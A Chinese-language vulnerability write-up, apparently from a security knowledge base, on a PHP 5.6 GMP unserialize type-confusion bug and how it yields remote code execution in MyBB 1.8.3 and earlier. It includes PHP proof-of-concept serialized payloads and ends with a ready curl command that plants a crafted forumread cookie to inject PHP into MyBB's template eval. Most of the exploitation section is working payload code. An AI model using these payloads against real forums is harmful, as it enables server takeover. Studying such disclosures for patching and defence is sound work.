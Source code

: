 ```yaml
---
title: MyBB <= 1.8.3 rce漏洞
id: zhfly3034
---
```


# MyBB <= 1.8.3 RCE

## 一、漏洞简介

在使用精心编制的对象的`__wakeup()`魔术方法进行GMP反序列化时发现了一个类型混淆漏洞，该漏洞可被滥用来更新分配给已创建对象的任何属性，进而触发严重的安全问题。

## 二、漏洞影响

PHP 5.6 < 5.6.30

MyBB<=1.8.3

## 三、复现过程

### 漏洞分析

gmp.c

```
static int gmp_unserialize(zval **object, zend_class_entry *ce, const unsigned char *buf, zend_uint buf_len, zend_unserialize_data *data TSRMLS_DC) /* {{{ */
{
    ...
    ALLOC_INIT_ZVAL(zv_ptr);
    if (!php_var_unserialize(&zv_ptr, &p, max, &unserialize_data TSRMLS_CC)
        || Z_TYPE_P(zv_ptr) != IS_ARRAY
    ) {
        zend_throw_exception(NULL, "Could not unserialize properties", 0 TSRMLS_CC);
        goto exit;
    }

```
if (zend_hash_num_elements(Z_ARRVAL_P(zv_ptr)) != 0) {
    zend_hash_copy(
        zend_std_get_properties(*object TSRMLS_CC), Z_ARRVAL_P(zv_ptr),
        (copy_ctor_func_t) zval_add_ref, NULL, sizeof(zval *)
    );
} 
``` 
```

zend_object_handlers.c

```
ZEND_API HashTable *zend_std_get_properties(zval *object TSRMLS_DC) /* {{{ */
{
    zend_object *zobj;
    zobj = Z_OBJ_P(object);
    if (!zobj->properties) {
        rebuild_object_properties(zobj);
    }
    return zobj->properties;
} 
```

攻击者可以将`**object`更改为整数类型或bool类型的ZVAL，然后攻击者将能够通过`Z_OBJ_P`访问存储在对象库中的任何对象。这意味着攻击者将能够通过`zend_hash_copy()`更新对象中的任何属性。从而引发了一系列安全问题。

下面这段代码可以验证这个漏洞

```
<?php

class obj

{

var $ryat;

```
function __wakeup()
{
    $this-&gt;ryat = 1;
} 
```

}

$obj = new stdClass;

$obj->aa = 1;

$obj->bb = 2;

$inner = ‘s:1:“1”;a:3:{s:2:“aa”;s:2:“hi”;s:2:“bb”;s:2:“hi”;i:0;O:3:“obj”:1:{s:4:“ryat”;R:2;}}’;

$exploit = ‘a:1:{i:0;C:3:“GMP”:’.strlen($inner).’:{’.$inner.’}}’;

$x = unserialize($exploit);

var_dump($obj); `?>` 
```

预期结果:

```
object(stdClass)#1 (2) {
  ["aa"]=>
  int(1)
  ["bb"]=>
  int(2)
} 
```

实际结果:

```
object(stdClass)#1 (3) {
  ["aa"]=>
  string(2) "hi"
  ["bb"]=>
  string(2) "hi"
  [0]=>
  object(obj)#3 (1) {
    ["ryat"]=>
    &int(1)
  }
} 
```

### 漏洞利用

在`php 5.6<=5.6.11`中，DateInterval的`__wakeup()`使用`convert_to_long()`句柄并重新分配其属性，因此攻击者可以通过GMP的`gmp_cast_object()`将GMP对象转换成任何整数类型的ZVAL:

```
static int gmp_cast_object(zval *readobj, zval *writeobj, int type TSRMLS_DC) /* {{{ */
{
    mpz_ptr gmpnum;
    switch (type) {
    ...
    case IS_LONG:
        gmpnum = GET_GMP_FROM_ZVAL(readobj);
        INIT_PZVAL(writeobj);
        ZVAL_LONG(writeobj, mpz_get_si(gmpnum));
        return SUCCESS; 
```

漏洞利用代码

```
<?php

var_dump(unserialize(‘a:2:{i:0;C:3:“GMP”:17:{s:4:“1234”;a:0:{}}i:1;O:12:“DateInterval”:1:{s:1:“y”;R:2;}}’)); `?>` 
```

当然，也可以套用精心编制的`__wakeup()`

```
<?php

function __wakeup()

{

$this->ryat = (int) $this->ryat;

} `?>` 
```

#### MyBB <= 1.8.3

index.php

```
if(isset($mybb->cookies['mybb']['forumread']))
    {
        $forumsread = my_unserialize($mybb->cookies['mybb']['forumread']);
    } 
```

MyBB<=1.8.3允许通过`unserialize()`反序列化cookie，因此攻击者能够更新`$mybb`或其他对象的属性，从而很容易导致安全问题，例如：XSS、SQL注入、RCE等
好消息是该漏洞已经在新版本得到了修复

### PoC

MyBB <= 1.8.3 RCE漏洞

index.php

```
eval('$index = "'.$templates->get('index').'";'); 
```

MyBB在模板解析过程中始终使用eval()函数。
inc/class_templates.php

```
class templates
{
    ...
    public $cache = array();
    ...
    function get($title, $eslashes=1, $htmlcomments=1)
    {
        global $db, $theme, $mybb;
        ...
        $template = $this->cache[$title];
        ...
        return $template;
    } 
```

如果我们可以控制`$cache`，我们就可以通过`eval()`函数注入php代码。
inc/init.php

```
$error_handler = new errorHandler();
...
$maintimer = new timer();
...
$mybb = new MyBB;
...
switch($config['database']['type'])
{
    case "sqlite":
        $db = new DB_SQLite;
        break;
    case "pgsql":
        $db = new DB_PgSQL;
        break;
    case "mysqli":
        $db = new DB_MySQLi;
        break;
    default:
        $db = new DB_MySQL;
}
...
$templates = new templates; 
```

`$templates`对象在`init.php`中实例化，并且在此之前实例化了四个对象。这意味着`$templates`对象的句柄被设置为5并存储到对象存储中，因此我们可以访问`$templates`对象并通过在GMP反序列化期间将GMP对象转换为整型ZVAL(其值为5)来更新`$cache`属性。这也表明我们可以通过eval()函数注入php代码。

当MyBB<=1.8.3和PHP5.6<=5.6.11时，只需在命令行上使用curl即可触发RCE：

```
curl --cookie 'mybb[forumread]=a:1:{i:0%3bC:3:"GMP":106:{s:1:"5"%3ba:2:{s:5:"cache"%3ba:1:{s:5:"index"%3bs:14:"{${phpinfo()}}"%3b}i:0%3bO:12:"DateInterval":1:{s:1:"y"%3bR:2%3b}}}}' http://0-sec.org/mybb/ 
```